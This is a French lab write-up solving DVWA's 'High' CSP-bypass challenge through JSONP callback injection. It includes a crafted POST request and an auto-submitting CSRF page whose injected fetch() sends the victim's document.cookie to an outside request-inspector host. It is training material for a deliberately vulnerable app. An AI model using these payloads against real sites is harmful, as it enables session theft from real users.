 # Niveau "High"

Le niveau "High" nous permet de résoudre une opération mathématique grâce à un appel JSONP :

![](../../../../.gitbook/assets/70f2e8752b05cad71757484179b748c5.png)

La méthode de callback se nomme `solveSum()` :

![](../../../../.gitbook/assets/0985bcfa7dbd7e1e9ab39c4e6eabcf5c.png)

Et la réponse permet de résoudre l'opération :

![](../../../../.gitbook/assets/bfadd48cbdebc11e02195c4b87a1d28d.png)

Dans un premier temps, j'ai intercepté la requête du callback afin d'y injecter un bout de JS :

![](../../../../.gitbook/assets/c6a8393d825a817647d8f8cf951ff9fc.png)

Cela semble fonctionner :

![](../../../../.gitbook/assets/14e7d64309d7f3a41bd7dc31ae7e49dd.png)

Le problème est qu'il n'est pas possible de soumettre notre payload à la victime car le `Content-Type` de la réponse est de type `application/json` et donc non exploitable en l'état :

![](../../../../.gitbook/assets/56accc4f100b01e32ab4c66a8438505a.png)

![](../../../../.gitbook/assets/f9b5e242aa1f34ade2d68c1f6327903b.png)

Etant bloqué mais voulant aller plus loin, je suis allé voir ce que d'autres personnes avaient réussi à faire. Je suis tombé sur ce [writeup](http://halazi.xin/2019/01/09/DVWA-CSP-BYPASS/) qui suit la démarche suivante :

* Analyser les sources du challenge permet d'identifier un endpoint de type **`POST`** autorisant d'inclure une donnée dans le page csp :

![](../../../../.gitbook/assets/ccf82f8a7c8b4513a015b1dcd13c8c9f.png)

La requête suivante devient donc possible :

```text
POST /vulnerabilities/csp/ HTTP/1.1
Host: 192.168.56.203:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.56.203:8080/security.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=b4rgbmn3q7l71tide90m809bj3; security=high
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 71

include=<script src="source/jsonp.php?callback=alert(1);"></script>
```

{% hint style="warning" %}
Attention à ne pas oublier le Content-Type pour la requête POST
{% endhint %}

Et en effet, notre script est bien exécuté :

![](../../../../.gitbook/assets/14b35a2694d9784692b57fd9be32eff2.png)

Le problème ici est que pour connaitre ce endpoint en **`POST`** il fallait regarder les sources \(ou le deviner\). En général je préfère ne regarder les sources qu'après avoir terminé le challenge.

Bien que l'auteur du writeup n'indique pas comment, il faut maintenant trouver un vecteur d'attaque contre notre victime. On utilise à nouveau l'exploitation de la faille CSRF, présente également sur ce niveau, en hébergeant le script malicieux suivant sur notre serveur :

```markup
<html>
    <head>
        <title>Exploitation POST XSS</title>
    </head>

    <body>
        <p>Coucou !</p>
        <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
            <input type="text" name="include" value="<script src=&quot;source/jsonp.php?callback=fetch('https://requestinspector.com/inspect/01dt9afwk20cb3xj8f1dwfdj6b?cookie='%2Bdocument.cookie);&quot;></script>">
            <button type="submit">Envoyer le message</button>
        </form>

        <script>
            document.forms['postExploitXSS'].submit();
        </script>
    </body>
</html>
```

{% hint style="info" %}
Attention à l'encodage de certains caractères spéciaux au niveau de la valeur à envoyer
{% endhint %}

Lorsque la victime \(authentifiée\) visite notre page malicieuse, l'attaquant subtilise son jeton de session :

![](../../../../.gitbook/assets/07f3f7439e05a98dcb2a5eb628e005f6.png)

